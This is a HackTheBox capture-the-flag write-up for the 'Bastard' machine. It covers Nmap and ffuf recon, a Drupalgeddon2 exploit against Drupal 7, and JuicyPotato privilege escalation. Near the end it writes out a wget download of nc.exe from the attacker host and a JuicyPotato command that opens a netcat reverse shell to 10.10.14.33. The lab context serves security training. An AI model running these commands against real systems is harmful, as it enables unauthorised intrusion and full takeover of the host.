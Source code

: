 ```yaml
---
title: Bastard Write up
date: 2024-01-14 11:00:00 -500
categories: [writeup]
tags: [hackthebox]
# TAGS should always be lowercase
---
```


# Welcome to my Bastard's Write-up 

## Recon

### Nmap

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -oA nmap/bastard 10.10.10.9</span></div>
<br>

    Nmap scan report for bastard.htb (10.10.10.9)
    Host is up (0.11s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Microsoft IIS httpd 7.5
    |_http-server-header: Microsoft-IIS/7.5
    |_http-generator: Drupal 7 (http://drupal.org)
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/ 
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
    |_/LICENSE.txt /MAINTAINERS.txt
    |_http-title: Welcome to Bastard | Bastard
    135/tcp   open  msrpc   Microsoft Windows RPC
    49154/tcp open  msrpc   Microsoft Windows RPC
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -Pn -A -sC -T4 10.10.10.9</span></div>
<br> 

    Nmap scan report for bastard.htb (10.10.10.9)
    Host is up (0.11s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Microsoft IIS httpd 7.5
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/ 
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
    |_/LICENSE.txt /MAINTAINERS.txt
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-generator: Drupal 7 (http://drupal.org)
    |_http-title: Welcome to Bastard | Bastard
    135/tcp   open  msrpc   Microsoft Windows RPC
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -p- -Pn -A -T4 10.10.10.9</span></div>
<br> 

    Nmap scan report for bastard.htb (10.10.10.9)
    Host is up (0.11s latency).
    Not shown: 65532 filtered tcp ports (no-response)
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Microsoft IIS httpd 7.5
    |_http-title: Welcome to Bastard | Bastard
    |_http-server-header: Microsoft-IIS/7.5
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/ 
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
    |_/LICENSE.txt /MAINTAINERS.txt
    |_http-generator: Drupal 7 (http://drupal.org)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    135/tcp   open  msrpc   Microsoft Windows RPC
    49154/tcp open  msrpc   Microsoft Windows RPC

### Directory Bruteforce

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://bastard.htb/FUZZ</span></div>
<br>

![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(2).png)

### HTTP (PORT 80)

<span style="color:cyan">http://10.10.10.9/</span>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(3).png)

Wappalyzer gave me this output:

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(4).png)

Seems like the website is running on Drupal 7

## Initial Foothold

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(5).png)







[https://www.exploit-db.com/exploits/44449](https://www.exploit-db.com/exploits/44449)

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(6).png)




<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ruby Drupalgeddon2.rb http://10.10.10.9</span></div>
<br>

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(7).png)


![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(8).png)



## Privelege Escalation

We will be using juicy potato for privilege escalation.

![gif](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/potato.gif)

The script can be found in here:

[https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)



Set a netcat listener.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nc -lvp 4443</span></div>
<br>

Also we need to import nc to the victim's machine.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ python -m SimpleHTTPServer 8000</span></div>
<br>

Import the nc.exe file into the target using wget. (we can also use certutil and iwr for powershell).

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">c:\users\public> wget http://10.10.14.33:8000/nc.exe</span></div>
<br>

Run the exploit using this clsid.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">c:\users\public> JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a “/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.33 4443” -t * -c {9B1F122C-2982–4e91-AA8B-E071D54F2A4D}</span></div>
<br>


![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastard-htb/image%20(1).png)